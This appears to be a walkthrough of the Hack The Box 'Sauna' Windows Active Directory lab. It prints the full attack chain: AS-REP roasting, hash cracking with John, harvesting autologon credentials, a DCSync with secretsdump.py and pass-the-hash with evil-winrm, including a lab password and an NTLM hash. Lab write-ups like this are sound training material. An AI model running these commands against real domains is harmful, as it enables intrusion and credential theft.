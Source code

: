 ```yaml
---
title: "HTB Sauna"
categories:
  - CTF
tags:
  - Post OSCP
  - Active Directory
  - HTB
---
```


Sauna HTB walkthrough

| ----------- | ----------- |
| OS | Windows |
| Difficulty | Easy |
| Points | 20 | 
| Release | 15 Feb 2020|
| IP | 10.10.10.175 | 

Sauna is an easy windows box that nicely showcases some common windows active directory misconfigurations and attack vectors such as AS-REP Roasting, Autologin credentials and abusing DC Sync privileges.


## Enumeration
As usual, we start by enumerating active services on the box using nmap

```
nmap -p- -sC -sV 10.10.10.175
```

``` 
-p- all ports
-sC run default scripts
-sV enumerate service versions
```

![Nmap]({{site.url}}/assets/CTF/HTB-Sauna/nmap.png)

Based on the enumerated ports, in particular 88 (Kerberos) and 389 (ldap), this instantly looks like a domain controller and therefore gives some insight into what attack vectors may be present. It is worth noting that by running default scripts (-sC) the Domain ‘EGOTISTICAL-BANK’ was automatically enumerated from LDAP, this may come in handy later.

In terms of priority it makes sense to start initially with SMB (445) - to see if we can null session authenticate to the service, then move onto http port 80.


### SMB
```
smbclient -L 10.10.10.175 -N
```
```
-L  list
-N  no password
```
![SMBClient]({{site.url}}/assets/CTF/HTB-Sauna/SMBClient.png)

So nothing there.

### HTTP

![HTTP]({{site.url}}/assets/CTF/HTB-Sauna/HTTP.png)

A quick bit of enumeration of this didn’t reveal anything obvious - also kicked off gobuster in the background but didn’t uncover anything obvious.

Potential users were found based on some manual enumeration of the website.

![HTTP2]({{site.url}}/assets/CTF/HTB-Sauna/HTTP2.png)

Using this information, a list of potential users was drawn up.

![userlist]({{site.url}}/assets/CTF/HTB-Sauna/userlist.png)


## Path to User

This user list can be used in conjunction with the enumerated domain from earlier to check for any kerberos accounts that don’t require kerberos preauthentication – AESRoasting.

```
GetNPUsers.py EGOTISTICALBANK/ -usersfile users.txt -format john -outputfile hashes.asreproast -no-pass -dc-ip 10.10.10.175
```

![GETNPUsers]({{site.url}}/assets/CTF/HTB-Sauna/GETNPUsers.png)

So we now have a hash for the FSmith user. 

This can be cracked using John. 

```
john hashes.asreproast --wordlist=/usr/share/wordlists/rockyou.txt 
```

![john]({{site.url}}/assets/CTF/HTB-Sauna/john.png)


We can now use these credentials to connect via Evil-WinRM and grab the user flag.

![user]({{site.url}}/assets/CTF/HTB-Sauna/user.png)

## Path to Root

Next step was to upload and execute [winpeas]( https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to identify any low hanging privesc routes.

![autologon]({{site.url}}/assets/CTF/HTB-Sauna/autologon.png)

So we have some autologon credentials for another user, though interesting looking at the user home directories there is no ‘svc_loanmanager’ user, just a ‘svc_loanmgr’.

Was able to connect to box as svc_loanmgr using the autologon credentials.

![svc_loanmgr]({{site.url}}/assets/CTF/HTB-Sauna/svc_loanmgr.png)

As this is clearly a domain based machine, the next step was to upload and execute sharp hound to see what paths to the Administrator user exist.

I had a few issues getting sharp hound to fire locally or through the powershell injestor script - so in the end I utilised bloodhound-python remotely, which is a little cleaner anyway.

```
bloodhound-python -u svc_loanmgr -p 'Moneymakestheworldgoround!' -d EGOTISTICAL-BANK.LOCAL -ns 10.10.10.175 -c All
```

![bloodhound-python]({{site.url}}/assets/CTF/HTB-Sauna/bloodhound-python.png)


Looking at what special permissions the user svc_loanmanager has we can see it has both the ‘GetChanges’ and ‘GetChangesAll’ privileges.

![bloodhound]({{site.url}}/assets/CTF/HTB-Sauna/bloodhound.png)

Per bloodhound help – ‘If a user account has both GetChanges and GetChangesAll privileges in BloodHound, you may perform a dcsync attack to get the password hash of an arbitrary principal using mimikatz’.

Rather than worrying about utilising mimikatz, we can just use impackets secretdump.py instead to do everything remotely.

```
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

![secretsdump]({{site.url}}/assets/CTF/HTB-Sauna/secretsdump.png)

Now we have an administrator NTLM hash we could try and crack it, or we can simply ‘pass the hash’ in order to authenticate via evil-winrm and grab the root flag.

```
evil-winrm -i 10.10.10.175 -u Administrator -H 'd9485863c1e9e05851aa40cbb4ab9dff'
```

![root]({{site.url}}/assets/CTF/HTB-Sauna/root.png)



